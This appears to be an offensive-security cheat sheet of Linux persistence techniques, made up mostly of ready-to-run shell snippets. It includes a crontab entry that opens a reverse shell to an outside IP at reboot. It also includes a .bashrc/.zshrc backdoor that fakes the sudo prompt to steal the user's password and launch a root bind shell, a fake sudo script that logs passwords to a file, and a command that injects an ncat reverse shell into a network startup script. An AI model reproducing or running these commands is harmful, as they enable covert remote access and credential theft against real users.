 ## Crontab - Reverse shell

```bash
(crontab -l ; echo "@reboot sleep 200 && ncat 192.168.1.2 4242 -e /bin/bash")|crontab 2> /dev/null
```

## Backdooring a user's bash_rc 

(FR/EN Version)

```bash
TMPNAME2=".systemd-private-b21245afee3b3274d4b2e2-systemd-timesyncd.service-IgCBE0"
cat << EOF > /tmp/$TMPNAME2
  alias sudo='locale=$(locale | grep LANG | cut -d= -f2 | cut -d_ -f1);if [ \$locale  = "en" ]; then echo -n "[sudo] password for \$USER: ";fi;if [ \$locale  = "fr" ]; then echo -n "[sudo] Mot de passe de \$USER: ";fi;read -s pwd;echo; unalias sudo; echo "\$pwd" | /usr/bin/sudo -S nohup nc -lvp 1234 -e /bin/bash > /dev/null && /usr/bin/sudo -S '
EOF
if [ -f ~/.bashrc ]; then
    cat /tmp/$TMPNAME2 >> ~/.bashrc
fi
if [ -f ~/.zshrc ]; then
    cat /tmp/$TMPNAME2 >> ~/.zshrc
fi
rm /tmp/$TMPNAME2
```

or add the following line inside its .bashrc file.

```powershell
$ chmod u+x ~/.hidden/fakesudo
$ echo "alias sudo=~/.hidden/fakesudo" >> ~/.bashrc
```

and create the `fakesudo` script.

```powershell
read -sp "[sudo] password for $USER: " sudopass
echo ""
sleep 2
echo "Sorry, try again."
echo $sudopass >> /tmp/pass.txt

/usr/bin/sudo $@
```


## Backdooring a startup service

* Edit `/etc/network/if-up.d/upstart` file
  ```bash
  RSHELL="ncat $LMTHD $LHOST $LPORT -e \"/bin/bash -c id;/bin/bash\" 2>/dev/null"
  sed -i -e "4i \$RSHELL" /etc/network/if-up.d/upstart
  ```
